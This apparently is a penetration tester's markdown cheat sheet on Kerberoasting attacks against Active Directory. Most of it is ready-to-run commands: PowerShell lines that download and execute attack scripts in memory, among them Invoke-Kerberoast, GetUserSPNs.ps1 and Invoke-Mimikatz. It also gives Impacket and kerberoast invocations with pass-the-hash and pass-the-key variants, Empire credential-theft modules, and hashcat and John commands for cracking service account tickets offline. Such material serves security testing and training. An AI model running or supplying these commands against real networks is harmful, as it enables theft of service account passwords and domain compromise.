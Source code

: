 # Active Directory - Kerberosting

### Overview

A Kerberoasting attack is an attack on the Kerberos authentication mechanism
that involves compromising the password of a service account, a user account
that has a "serviceprincipalname" (SPN), through TGS's request.

The attack chain is as follow:
  - Identity accounts with SPN
  - Request TGS for thoses services
  - Extract the TGS for offline cracking

###### Kerberos

Kerberos is a network authentication protocol based on a secret key mechanism
(symmetric encryption) and the use of tickets issued by the KDC (Key
Distribution Center).  

Two types of tickets are used:  
  - TGT (Ticket-Granting Ticket) is a ticket that represents the identity of
  the user and is used to request TGS
  - TGS (Ticket-Granting Service) is also a ticket that allows the user to
  authenticate with a specific service, whose name is written in the ticket.

###### Service Principal Names (SPN)

The SPN is a unique identifier of a service instance. SPNs are used by Kerberos
authentication to associate a service instance with a service logon account.
SPN are used to map a service running on a server to an account it’s running as
so that it can accept kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking:

```
# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | Out-File <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -request -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py [-h] [-request] [-request-user username] [-save] [outputfile OUTPUTFILE] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] domain/username[:password]
GetUserSPNs.py -dc-ip <DCIP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME> # PtH

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>" # Requests TGS for the specified SPN
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}} # Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Crack Service Tickets

Both John the Ripper (magnumripper fork) and Hashcat can be used to crack the
TGS.

The hash needs to respect the following format to be recognized by John/Hashcat:

```
$krb5tgs$23$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the PowerSploit Invoke-Kerberos
cmdlet may need to be manually updated.

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -r rules/best64.rule <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
